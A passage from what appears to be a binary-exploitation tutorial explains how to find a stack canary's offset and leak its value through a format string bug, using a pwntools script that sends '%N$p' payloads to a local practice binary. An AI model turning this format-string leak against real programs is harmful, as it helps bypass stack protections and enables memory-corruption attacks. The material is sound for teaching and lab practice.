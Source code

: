 <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Upon viewing the stack, we can see that we have our return pointer on the stack (`AL:1`), our local\_8, and then our canary itself.

In other words, our canary will be 64-bytes in judging from our buffer, 12 bytes after we write the 4-byte canary in order to get to the return address.

## Identifying the Canary

We can do this by fuzzing the program if there is a format string bug to leak the canary.

**Keep in mind**:&#x20;

<mark style="color:yellow;">The canary value is very random, will not start with f7/ff, and will end with 00 usually</mark>.

You will want to run this script a few times and look for elements off of the stack that are changing and randomized each time the program is run.

`fuzz.py`:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./canary', checksec=False)

# Let's fuzz x values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```
